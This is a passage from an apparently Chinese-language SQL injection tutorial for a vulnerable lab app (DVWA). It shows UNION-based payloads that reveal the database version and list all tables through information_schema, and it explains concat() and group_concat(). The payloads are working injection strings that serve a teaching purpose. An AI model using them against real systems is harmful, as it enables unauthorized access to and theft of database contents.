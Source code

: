 
-----


### <span id = "sql">5. 查看当前数据库版本</span>

Payload : `1' union select version(),2 #` <br>

![images](/images/2019-03-30/sql13.png) <br>

-----

### <span id = "table">6. 查看当前数据库所有表</span>

知道数据库就可以查表了，<br>

Payload :  <br>

```sql
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=0x64767761 #
```

----

这里又要科普一下函数了，，<br>

**`concat()`** 函数 <br>

功能：将多个字符串连接成一个字符串。 <br>

------

**`group_concat()`** 函数 <br>

功能：函数返回一个字符串结果，该结果由分组中的值连接组合而成。 <br>

具体可以看看下面这篇文章，<br>

`https://baijiahao.baidu.com/s?id=1595349117525189591&wfr=spider&for=pc` 

----

**`table_name`** 就是数据表的名字， `group_concat(table_name)` 来连接这些表，就是这个样子<br>
